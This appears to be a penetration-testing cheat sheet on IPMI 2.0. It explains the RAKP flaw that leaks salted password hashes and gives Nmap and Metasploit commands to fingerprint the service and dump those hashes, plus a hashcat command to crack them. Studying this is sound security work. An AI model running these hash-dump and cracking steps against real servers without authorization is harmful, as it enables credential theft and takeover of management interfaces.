 ## DANGEROUS CONFIGURATION
A flaw in the RAKP protocol in IPMI 2.0 allows the user to receive the salted SHA1 or MD5 hash of the user's password. The server sends it before the authentication procedure
## FOOTPRINTNG
Common port: 623

**NMAP**
Most used tool for footprinting
- [NSE(Nmap Scripting Engine)](https://nmap.org/book/nse.html) - A set of different scripts written for specific services

**NMAP COMMAND FLAGS**
- *--script-updatedb*: Updates the script database of NMAP
- *--script-trace*: trace the progress of NSE scripts at the network level
- *-sV*: Version scan
- *-A*: Aggressive scan
- *-sC*: Default script scan
- *-p \<port\>*:  defines which port to scan

Use the *--script ipmi-version* argument to retrieve IPMI version

**METASPLOIT VERSION SCAN**
First access the Metasploit console using *msfconsole*/

msf6 > *use auxiliary/scanner/ipmi/ipmi_version*
msf6 auxiliary(scanner/ipmi/ipmi_version) > *set rhosts \<ip-address\>*
msf6 auxiliary(scanner/ipmi/ipmi_version) > *run*

**METASPLOIT HASH DUMP**
First access the Metasploit console using *msfconsole*/

msf6 > *use auxiliary/scanner/ipmi/ipmi_dumphashes*
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > *set rhosts \<ip-address\>*
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > *run*

**HASHCAT**
Use haschat once you retrieve the salted SHA1 or MD5 password
Ex.
*hashcat -m 7300 \<salted-password-hash\> \<wordlist-file\>*

